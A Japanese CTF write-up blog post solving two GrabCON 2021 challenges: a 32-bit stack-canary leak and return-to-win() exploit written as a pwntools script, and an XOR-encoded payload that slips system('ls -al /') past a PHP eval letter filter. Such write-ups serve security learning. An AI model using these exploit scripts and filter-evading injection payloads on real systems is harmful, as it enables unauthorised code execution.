 ```yaml
---
title: "GrabCON CTF 2021 Writeup"
date: 2021-09-05T20:00:00+09:00
lastmod: 2021-09-05T20:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">
<img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!"> <b><font color="teal">Save The Earth! - 地球環境を守ろう！</font></b> <img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!">
<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fcybrics_ctf_2021%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://ctf.thecybergrabs.org/](https://ctf.thecybergrabs.org/)
<br /><br />
結構、Server Errorが出てましたね。。

<br />

750点を獲得し、174位でした。

<br><br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_Score1.png" alt="grabcon_CTF_2021_Score1.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_Score2.png" alt="grabcon_CTF_2021_Score2.png">


<br><br>
チャレンジのリスト。

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_chall1.png" alt="grabcon_CTF_2021_chall1.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_chall2.png" alt="grabcon_CTF_2021_chall2.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_chall3.png" alt="grabcon_CTF_2021_chall3.png">

<br>



<br /><br />
## [Pwn]: Can you? (100 points)
- - -
### Challenge
> Can you?
<br /><br />
nc 35.246.42.94 31337

Attachment:

- cancancan (ELF 32bit)

<br />
### Solution
checksecを確認。
<pre>
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
</pre>

タイトルなどから、Canaryに関連したチャレンジなのがわかります。

<br />
Ghidraでコードを確認します。

{{< highlight powershell "linenos=table,hl_lines=27 28" >}}
undefined4 main(void)

{
  init((EVP_PKEY_CTX *)&stack0x00000004);
  puts("can you bypass me???");
  vuln();
  return 0;
}


void vuln(void)

{
  int in_GS_OFFSET;
  char *__buf;
  undefined4 uVar1;
  undefined4 uVar2;
  int local_78;
  char local_74 [100];
  int local_10;
  
  uVar2 = 0x80492d6;
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  for (local_78 = 0; local_78 < 2; local_78 = local_78 + 1) {
    uVar1 = 0x200;
    __buf = local_74;
    read(0,__buf,0x200);
    printf(local_74,__buf,uVar1,uVar2);
  }
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}


void win(void)

{
  system("/bin/sh");
  return;
}

{{< / highlight >}}

<br />
Buffer Overflow と、Format String Bug (書式文字列攻撃) の両方の脆弱性がありますね。

<br />
"ctf 32bit canary fsb leak" でググったら、以下のWikiでほぼそのまんまの内容が見つかりました。

[https://wiki.vaala.cloud/pwn/linux/mitigation/canary/#canary-leaks-canary](https://wiki.vaala.cloud/pwn/linux/mitigation/canary/#canary-leaks-canary)

<br />

書いたコード（ほぼ流用）

```Python
#!/usr/bin/env python
from pwn import *
context.binary = 'cancancan'

s = remote('35.246.42.94', 31337)

# Leak Canary
s.recvuntil("can you bypass me???")
payload = "A" * 100
s.sendline(payload)
s.recvuntil ("A" * 100)
Canary = u32(s.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
addr_win = ELF("./cancancan").sym["win"]
payload = b"A" * 100 + p32(Canary) + b"A" * 12 + p32(addr_win)
s.send(payload)
s.interactive ()

```

<br />
Wikiではあんまり説明がなかったので補足すると、pwntoolsのsendlineは最後に改行 ("\n") が入るので101バイトが書き込まれ、("\n") で Canary の "\x00" 部分が上書きされます。

これによって、printfの結果がもともと"\x00"で止まるはずだったのが、Canaryを含めて出力されます。

("\n")は "\x0a" なので、-0xa をしています。0xFFFFFF00 でゼロクリアでも同じ結果になるはず。


<br />
Flag: `GrabCON{Byp4ss_can4ry_1s_fun!}`



<br /><br />
<br /><br />
## [Web]: Basic Calc (150 points)
- - -
### Challenge
> Ever used calc based on php?
<br /><br />
Link

<br />
### Solution
ウェブサイトにアクセスすると、計算用のフォームと、PHPコードが表示されます。

PHPのコード部分は以下でした。
```php
<?php

if (isset($_POST["eq"])){
    
    $eq = $_POST["eq"];

    if(preg_match("/[A-Za-z`]+/",$eq)){
        die("BAD.");
    }
    echo "Result: ";
    eval("echo " . $eq . " ;");
}else{
  echo highlight_file('index.php',true);  
}

?>
```
<br />
アルファベットを使わずにコマンドを入力しeval()に渡す、ということをしないといけません。

<br />
これも、ググって調べると、どうやら Root-Me の「PHP Eval」という問題と同じみたいです。

以下の Write Up を参考にさせていただきました。<br>
[https://joshuanatan.medium.com/root-me-web-server-php-eval-f77584cae128](https://joshuanatan.medium.com/root-me-web-server-php-eval-f77584cae128)

<br />
コードは上記の Write Up をそのまま使ったので、ここには載せません。

<br />

system("ls -al")を実行したいとすると、
<pre>
system = ('('^'[').('$'^']').('('^'[').(')'^']').('%'^'@').('-'^'@')
ls -al / = (','^'@').('('^'[').('['^'{').'-'.('!'^'@').(','^'@').('['^'{').'/'
</pre>

<br />

以下をPOSTすることになります。
<pre>
<font color="red">(</font>('('^'[').('$'^']').('('^'[').(')'^']').('%'^'@').('-'^'@')<font color="red">)</font><font color="red">(</font>(','^'@').('('^'[').('['^'{').'-'.('!'^'@').(','^'@').('['^'{').'/'<font color="red">)</font>
</pre>
このようにカッコ（<font color="red">赤い</font>部分）をつけないと、単純にechoでコマンド自体が表示されて、コマンドの結果が得られません。

<br />

`ls -al /` を確認したら、/flagggg.txt があるのがわかります。

ここで、

`cat /flagggg.txt` をやろうとすると、以下のようにエラーになってしまいました。

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_basic_calc.png" alt="grabcon_CTF_2021_basic_calc.png">

<br />

`cat /*.txt` にて、フラグを得ることができました。

<br />

Flag: `GrabCON{b4by_php_f0r_y0u}`


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
